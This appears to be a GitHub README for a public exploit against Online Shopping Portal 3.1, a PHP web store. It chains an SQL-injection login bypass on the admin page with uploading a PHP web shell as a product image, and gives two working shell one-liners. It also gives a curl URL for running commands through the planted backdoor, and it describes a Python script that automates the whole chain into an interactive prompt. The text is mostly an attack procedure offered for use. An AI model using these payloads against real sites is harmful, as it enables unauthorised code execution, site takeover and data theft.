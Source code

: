 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v1.0\
Tested on: Windows

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navagate to the Admin login page: `http://<site>/shopping/admin` \
Username: `'OR 1=1'--` \
Password: whatever
  
## File upload vulnerability

After bypassing the authentication navagate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: `http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into a interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.

